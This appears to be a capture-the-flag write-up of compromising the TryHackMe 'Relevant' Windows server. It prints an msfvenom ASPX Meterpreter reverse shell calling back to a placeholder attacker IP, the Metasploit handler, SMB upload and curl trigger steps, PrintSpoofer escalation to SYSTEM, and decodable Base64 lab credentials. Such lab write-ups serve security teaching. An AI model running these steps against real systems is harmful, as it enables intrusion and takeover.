







# TryHackMe - Relevant

## Overview

- **Room:** Relevant
- **Platform:** TryHackMe
- **Difficulty:** Medium
- **Focus:** Windows enumeration, anonymous SMB access, credential discovery, writable SMB shares, ASPX reverse shells, IIS exploitation, Windows token impersonation, and privilege escalation.

---

## Attack Path

The compromise followed this chain:

```text
Nmap service enumeration
        ↓
Anonymous SMB enumeration
        ↓
Discovery of the nt4wrksv share
        ↓
Download and Base64 decoding of passwords.txt
        ↓
Confirmation of anonymous SMB write access
        ↓
Generation of an ASPX Meterpreter reverse shell
        ↓
Upload of the shell through SMB
        ↓
Discovery of the IIS virtual directory on port 49663
        ↓
Execution of the uploaded ASPX file through IIS
        ↓
Initial access as IIS APPPOOL\DefaultAppPool
        ↓
Privilege enumeration and Print Spooler verification
        ↓
PrintSpoofer token impersonation
        ↓
NT AUTHORITY\SYSTEM
```

---

# 1. Initial Enumeration

I started by running an Nmap scan against the target to identify open ports, running services, and their versions.

```bash
nmap -sC -sV <TARGET_IP>
```

The `-sC` option runs Nmap's default scripts, while `-sV` attempts to identify the versions of the services running on the discovered ports.

The scan returned the following results:

```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-03 07:50 UTC
Nmap scan report for ip-10-48-130-125.ap-south-1.compute.internal (10.48.130.125)
Host is up (0.00046s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2026-11-02T07:48:43
|_Not valid after:  2027-05-04T07:48:43
| rdp-ntlm-info:
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2026-11-03T07:50:46+00:00
|_ssl-date: 2026-11-03T07:51:26+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
49663/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown

Host script results:
| smb-os-discovery:
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT
|   Workgroup: WORKGROUP
|_  System time: 2026-11-02T23:50:49-08:00
|_clock-skew: mean: 1h36m00s, deviation: 3h34m41s, median: 0s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2026-11-03T07:50:47
|_  start_date: 2026-11-03T07:48:43

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.63 seconds
```

The scan identified several interesting services:

- **80/tcp:** Microsoft IIS 10.0 web server.
- **135/tcp:** Microsoft RPC.
- **139/tcp:** NetBIOS session service.
- **445/tcp:** SMB file sharing.
- **3389/tcp:** Remote Desktop Protocol.
- **49663, 49666 and 49667:** Additional open ports that required further investigation.

The SMB enumeration scripts also identified the operating system as Windows Server 2016 Standard Evaluation, build 14393.

One particularly interesting result was that SMB message signing was not required. This was useful reconnaissance information, although it was not the exploitation method used to compromise this machine.

I decided to investigate SMB first because port 445 was open and the scan indicated that guest-level access was being used by the SMB enumeration scripts.

---

# 2. Anonymous SMB Enumeration

I attempted to enumerate the available SMB shares without supplying credentials.

```bash
smbclient -L //<TARGET_IP> -N
```

The options used were:

- `-L`: List the available shares on the remote SMB server.
- `-N`: Do not prompt for a password, allowing an anonymous connection attempt.

The command succeeded and returned the following shares:

```text
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
nt4wrksv        Disk
SMB1 disabled -- no workgroup available
```

The `ADMIN$` and `C$` shares are administrative shares, while `IPC$` is used for inter-process communication.

The `nt4wrksv` share stood out because it was an additional share rather than one of the standard Windows administrative shares.

I attempted to access the shares, but I could not access the administrative shares using anonymous authentication. The `nt4wrksv` share, however, was accessible without credentials.

## 2.1. Connect to the nt4wrksv Share

I connected directly to the share:

```bash
smbclient //<TARGET_IP>/nt4wrksv -N
```

Once connected, I listed its contents:

```text
ls
```

A file named `passwords.txt` was present.

I downloaded it to my attacking machine using:

```text
get passwords.txt
```

The `get` command downloads a file from the remote SMB share into the local working directory.

I then exited the SMB session and returned to my terminal.



## 2.2. Inspect the Downloaded File

I used `cat` to inspect the downloaded file:

```bash
cat passwords.txt
```

The file contained two Base64-encoded entries:

```text
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

The values were encoded rather than stored as readable text.

I decoded the entries using Base64:

```bash
echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw==' | base64 -d
```

```bash
echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d
```

The decoded entries identified two usernames and their associated passwords.

The actual password values are intentionally omitted from this writeup.

## 2.3. Test the Discovered Credentials

I attempted to use the recovered credentials to access the other SMB shares, including:

- `ADMIN$`
- `IPC$`
- `C$`

However, these credentials did not grant me access to those shares.

I therefore returned my attention to the `nt4wrksv` share.

## 2.4. Test Whether the SMB Share Was Writable

Being able to read a share does not automatically mean that files can be uploaded to it.

I wanted to establish whether the anonymous account also had write permissions.

I reconnected:

```bash
smbclient //<TARGET_IP>/nt4wrksv -N
```

Inside the SMB session, I attempted to create a directory:

```text
mkdir test_file
```

I then listed the contents:

```text
ls
```

The newly created directory appeared in the listing.

This confirmed that the anonymous SMB session had write access to the share.

This was a significant finding because it meant I could place a file on the target server without first obtaining a Windows account or an authenticated SMB session.

---

# 3. Generate an ASPX Meterpreter Reverse Shell

After confirming that the `nt4wrksv` share was writable, I investigated how I could use that access to execute code on the Windows server.

The target was running Microsoft IIS, which supports ASP.NET pages with the `.aspx` extension.

I decided to generate an ASPX reverse shell payload using `msfvenom`.

## 3.1. Generate the Payload

I ran:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f aspx > Shell.aspx
```

The options specify:

- `-p windows/x64/meterpreter_reverse_tcp`: Generate a 64-bit Windows Meterpreter reverse TCP payload.
- `LHOST=<ATTACKER_IP>`: Set the IP address that the target should connect back to.
- `LPORT=4444`: Set the destination port for the reverse connection.
- `-f aspx`: Generate the payload in ASPX format.
- `> Shell.aspx`: Save the generated output to a file named `Shell.aspx`.

The attacker IP address must be reachable from the target. It is important to use the correct VPN or AttackBox interface address rather than an unrelated local address.



The resulting `Shell.aspx` file contained the generated ASP.NET payload.

## 3.2. Configure the Metasploit Handler

The payload needed a receiving handler on my attacking machine.

I opened another terminal tab and started Metasploit:

```bash
msfconsole
```

I selected the multi/handler module:

```text
use exploit/multi/handler
```

I configured the handler to match the payload generated by `msfvenom`:

```text
set PAYLOAD windows/x64/meterpreter_reverse_tcp
set LHOST <ATTACKER_IP>
set LPORT 4444
```

The handler's payload, IP address, and port must match the values used when generating the ASPX file. If these settings do not match, the reverse connection may fail to establish a usable Meterpreter session.

I then started the handler:

```text
exploit
```

I left Metasploit running and waiting for an incoming connection.

---

# 4. Upload the Payload Through SMB

With the ASPX payload generated and the Metasploit handler waiting, I returned to my other terminal.

I connected to the anonymous SMB share again:

```bash
smbclient //<TARGET_IP>/nt4wrksv -N
```

I uploaded the generated payload:

```text
put Shell.aspx
```

The `put` command transfers a local file from my attacking machine into the remote SMB share.



I now had a copy of `Shell.aspx` stored in the writable `nt4wrksv` share on the target.

However, uploading the file did not automatically execute it. I still needed to determine whether the web server could access the same physical directory and process the uploaded ASPX file.

---

# 5. Discover the IIS Virtual Directory and Trigger the Reverse Shell

During the initial Nmap scan, three additional ports stood out:

```text
49663/tcp
49666/tcp
49667/tcp
```

These ports were reported as unknown services, so I decided to investigate them individually.

I opened the following address in my browser:

```text
http://<TARGET_IP>:49663
```

The response showed another Microsoft IIS web server.



This was an important discovery because it provided another HTTP service running on a non-standard port.

## 5.1. Understand the SMB and IIS Relationship

The key to the initial compromise was the relationship between the writable SMB share and the IIS web server.

The `nt4wrksv` share was accessible through SMB on port 445. At the same time, the IIS service exposed a web-accessible directory associated with that share.

This created an opportunity to transfer a file through SMB and then access that same file through HTTP.

The exploitation process was:

1. **Upload through SMB:** I uploaded `Shell.aspx` to the writable `nt4wrksv` share.
2. **Access through IIS:** I used the IIS service on port `49663` to request the uploaded file through the corresponding web path.
3. **Execute the ASPX payload:** IIS processed the ASPX file as server-side code rather than simply treating it as a downloadable file.
4. **Establish the reverse connection:** The payload attempted to connect back to the attacking machine on port `4444`, where Metasploit was listening.

This is an example of an insecurely configured virtual directory combined with anonymous write access to the underlying storage.

The SMB share and IIS directory effectively provided two different ways to interact with the same files.

## 5.2. Trigger the Uploaded ASPX File

I used `curl` to request the uploaded ASPX file through the IIS service:

```bash
curl http://<TARGET_IP>:49663/nt4wrksv/Shell.aspx
```

The request caused IIS to process the uploaded ASPX file.

Because the file contained the Meterpreter reverse TCP payload, executing it caused the target to initiate an outbound connection to my configured attacker IP address and port `4444`.

The Metasploit handler received the connection and established an initial Meterpreter session.



**Important:** The listener must already be running before requesting the ASPX file. The payload initiates the connection when IIS executes it; the SMB upload itself does not create a shell.

This provided my initial access to the target.

I located the user.txt flag op Bob's Desktop:

```text
type user.txt
```



---

# 6. Windows Privilege Enumeration

After obtaining the initial Meterpreter session, I began checking the security context and privileges available to the compromised process.

The session was running under the IIS application pool identity:

```text
iis apppool\defaultapppool
```

I needed to determine whether this account had any privileges that could be abused to escalate to a higher level of access.

## 6.1. Enumerate Token Privileges

From the Meterpreter session, I ran:

```text
getprivs
```

This command lists the Windows privileges available to the current process token.

The important privileges identified in the supplied enumeration were:

- `SeImpersonatePrivilege`
- `SeAssignPrimaryTokenPrivilege`

These privileges are significant because they can allow a process to impersonate another security context under certain conditions.

They are commonly associated with Windows service accounts and application pool identities.

In particular, `SeImpersonatePrivilege` can be abused through certain local privilege-escalation techniques that cause a privileged service to authenticate to an attacker-controlled named pipe.

## 6.2. Verify the Print Spooler Service

The next step was to check whether the Windows Print Spooler service was running.

I entered a Windows command shell from Meterpreter:

```text
shell
```

Then I queried the service:

```cmd
sc query spooler
```

This command displays the current state of the Print Spooler service.

The Print Spooler was identified as active, which made the system a candidate for a PrintSpoofer-based privilege-escalation attempt.

The combination of the available impersonation privileges and the running service provided the conditions needed to investigate this technique.

---

# 7. Privilege Escalation with PrintSpoofer

The privilege-escalation method used was token impersonation through PrintSpoofer.

PrintSpoofer abuses Windows impersonation privileges by coercing a privileged service into authenticating to a named pipe. If the required conditions are met, the exploit can impersonate the privileged token and launch a process under that security context.

In this case, the goal was to obtain a command prompt running as `NT AUTHORITY\SYSTEM`.

## 7.1. Upload PrintSpoofer

I returned to the Meterpreter session and exited the standard Windows command shell:

```text
exit
```

I then uploaded the 64-bit PrintSpoofer executable to the target's Windows temporary directory:

```text
upload /root/Downloads/PrintSpoofer64.exe C:\Windows\Temp\PrintSpoofer64.exe
```

The Windows temporary directory was used as a convenient location to store the executable before running it.

## 7.2. Execute PrintSpoofer

I opened another Windows command shell from Meterpreter:

```text
shell
```

I navigated to the directory where I had uploaded the executable:

```cmd
cd C:\Windows\Temp
```

I then executed PrintSpoofer with the following arguments:

```cmd
PrintSpoofer64.exe -i -c cmd
```

The arguments mean:

- `-i`: Request an interactive process.
- `-c cmd`: Launch the Windows command interpreter.

The exploit attempted to obtain and impersonate the privileged service token, then launch the requested command prompt.

## 7.3. Verify the Privilege Escalation

After the exploit executed, I checked the current security context:

```cmd
whoami
```

The output confirmed that the shell was running as:

```text
nt authority\system
```

This verified that the privilege escalation had succeeded.

---

# 8. Retrieve the Root Flag

With SYSTEM-level access, I could access the Administrator user's files.

I read the root flag directly from the Administrator desktop:

```cmd
type C:\Users\Administrator\Desktop\root.txt
```



This completed the compromise of the Relevant machine.

---

# Findings

## Anonymous SMB Access

The `nt4wrksv` share allowed unauthenticated access.

I could list its contents, download `passwords.txt`, and create a directory without supplying credentials. This demonstrated that the share permitted anonymous read and write operations.

## Credential Disclosure

The `passwords.txt` file contained Base64-encoded user credentials.

Although Base64 is an encoding format, not encryption, it can make sensitive information less immediately readable. Anyone with access to the file could decode the contents and recover the original values.

## Insecure SMB and IIS Directory Mapping

The writable SMB share was also accessible through an IIS virtual directory on port `49663`.

This allowed me to upload an ASPX file over SMB and subsequently execute it through HTTP.

The combination of anonymous write access and server-side ASPX processing provided the initial code-execution path.

## Windows Token Impersonation

The IIS application pool identity possessed `SeImpersonatePrivilege` and `SeAssignPrimaryTokenPrivilege`.

The running Print Spooler service provided an opportunity to investigate token impersonation using PrintSpoofer.

## Excessive Privileges Available to the IIS Application Pool

The initial web service account had privileges that could be abused to obtain a SYSTEM-level process.

This demonstrated the importance of restricting service account privileges and preventing unnecessary impersonation capabilities.

---

# Vulnerabilities

| Vulnerability | Impact |
|---|---|
| Anonymous SMB access | Allowed unauthenticated users to read and write files in the `nt4wrksv` share. |
| Sensitive information stored in `passwords.txt` | Exposed user credentials to anyone who could access the share. |
| Base64 used instead of encryption | Made the stored credentials trivial to decode. |
| Insecure IIS virtual directory configuration | Exposed files uploaded through SMB through a web-accessible path. |
| ASPX execution in the exposed directory | Allowed an uploaded server-side payload to execute and establish a reverse shell. |
| Excessive token privileges | Allowed the compromised IIS application pool identity to attempt privileged token impersonation. |
| Print Spooler exposure combined with impersonation privileges | Provided the conditions used by PrintSpoofer to obtain SYSTEM-level access. |

---

# Final Result

I successfully compromised the Relevant Windows Server 2016 machine.

The initial foothold was obtained by exploiting the combination of anonymous write access to the `nt4wrksv` SMB share and an IIS virtual directory that exposed the same files over HTTP.

I generated a 64-bit ASPX Meterpreter reverse shell, uploaded it through SMB, and triggered it through IIS on port `49663`. This established an initial Meterpreter session running as `IIS APPPOOL\DefaultAppPool`.

I then identified the available Windows token privileges and verified that the Print Spooler service was running. Using PrintSpoofer, I obtained a command prompt running as `NT AUTHORITY\SYSTEM`.

---

# Attack Chain Summary

The complete attack path I followed to compromise the Relevant machine was:

```text
Nmap service enumeration
        ↓
Anonymous SMB share enumeration
        ↓
Discovery of nt4wrksv
        ↓
Download and Base64 decoding of passwords.txt
        ↓
Confirmation of anonymous write access
        ↓
Generation of ASPX Meterpreter reverse shell
        ↓
Upload of Shell.aspx through SMB
        ↓
Discovery of IIS service on port 49663
        ↓
Access to the shared directory through IIS
        ↓
Execution of Shell.aspx
        ↓
Initial Meterpreter session as IIS APPPOOL\DefaultAppPool
        ↓
Enumeration of SeImpersonatePrivilege
        ↓
Verification of the Print Spooler service
        ↓
PrintSpoofer execution
        ↓
NT AUTHORITY\SYSTEM
```

---

# Key Vulnerabilities

| Vulnerability | Impact |
|---|---|
| Anonymous writable SMB share | Allowed unauthenticated file uploads and downloads. |
| Sensitive credential disclosure | Exposed user credentials through an accessible text file. |
| Insecure IIS virtual directory mapping | Connected the writable SMB storage to a web-accessible location. |
| ASPX server-side execution | Allowed remote code execution through the uploaded payload. |
| SeImpersonatePrivilege and Print Spooler exposure | Enabled local privilege escalation to SYSTEM through PrintSpoofer. |

---

# Lessons Learned

This room demonstrated how seemingly separate services can combine to create a complete compromise path. Anonymous SMB access initially appeared to be a file-disclosure issue, but confirming that the share was writable changed its significance. Once I discovered that IIS exposed the same directory through a virtual directory, I could upload an ASPX payload over SMB and execute it through HTTP. The important lesson was to investigate how services interact rather than treating each open port as an isolated finding.

The privilege-escalation stage demonstrated the importance of inspecting Windows token privileges after obtaining an initial foothold. The IIS application pool identity possessed impersonation privileges, and the running Print Spooler service provided an opportunity to abuse them. Checking the process security context, available privileges, and relevant Windows services helped identify the route from a restricted web service account to SYSTEM.
